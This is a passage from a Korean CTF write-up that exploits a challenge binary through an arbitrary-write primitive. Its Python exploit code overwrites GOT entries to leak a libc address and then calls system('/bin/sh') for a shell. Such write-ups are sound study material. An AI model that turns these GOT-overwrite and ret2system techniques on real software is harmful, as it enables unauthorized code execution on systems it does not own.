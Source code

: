 ### Leak libc

`main()`에서는 전역 변수 `stdout`에 저장된 값을 `rdi`에 넣고 `setbuf()`를 호출한다. `setbuf()`의 GOT를 `puts()`의 PLT로 덮고, `stdout`에는 `__libc_start_main()`의 GOT 주소를 넣어서 `__libc_start_main()`의 주소를 leak할 수 있다.

```python
# leak libc

# setbuf() -> puts@plt+6 -> puts()
for offset in range(8):
    aaw(setbuf_got + offset, ((puts_plt + 6) & (0xff << (8 * offset))) >> (8 * offset))

# stdout ->  __libc_start_main@got
for offset in range(8):
    aaw(stdout + offset, (__libc_start_main_got & (0xff << (8 * offset))) >> (8 * offset))

# setbuf(stdout) -> puts(__libc_start_main@got)
aaw(__stack_chk_fail_got, main + 0x23)

__libc_start_main = u64(r.recvline()[:-1].ljust(8, b'\x00')) # __libc_start_main()
libc = __libc_start_main - __libc_start_main_offset # libc base
system = libc + system_offset # system()
binsh = libc + binsh_offset # "/bin/sh"
```

### Call system("/bin/sh")

`puts()`의 GOT를 `system()`의 주소로 덮고, `stdout`에 `"/bin/sh"`의 주소를 넣고, `setbuf()`의 GOT는 `no_brute()`에서 `puts()`를 호출하는 주소로 덮고 같은 방식으로 `setbuf(stdout)`을 호출하면 셸을 획득할 수 있다. 

![image](https://user-images.githubusercontent.com/102066383/163415683-cf90f172-afc8-4de2-a19b-259154b16555.png)

바로 `0x4005ce`로 점프하면 스택 정렬이 되지 않아서 에러가 발생하기 때문에 ,`0x4005ca`로 점프해서 스택이 정렬된 상태에서 `system()`이 호출되도록 한다.

```python
# call system("/bin/sh")

# sleep() -> main+0x33
aaw(sleep_got, (main + 0x33) & 0xff)
aaw(sleep_got + 1, ((main + 0x33) & 0xff00) >> 8)

# __stack_chk_fail() -> no_brute+0x19 (call sleep() -> main+0x33)
aaw(__stack_chk_fail_got, (no_brute + 0x19) & 0xff)

# puts() -> system()
for offset in range(8):
    aaw(puts_got + offset, (system & (0xff << (8 * offset))) >> (8 * offset))

# setbuf() -> no_brute+0x3a (add rsp,0x18; jmp puts@plt) (for stack alignment)
aaw(setbuf_got, (no_brute + 0x3a) & 0xff)

# stdout -> "/bin/sh"
for offset in range(8):
    aaw(stdout + offset, (binsh & (0xff << (8 * offset))) >> (8 * offset))

# __stack_chk_fail() -> main+0x23 -> setbuf(stdout) -> system("/bin/sh")
aaw(__stack_chk_fail_got, (main + 0x23) & 0xff)
```
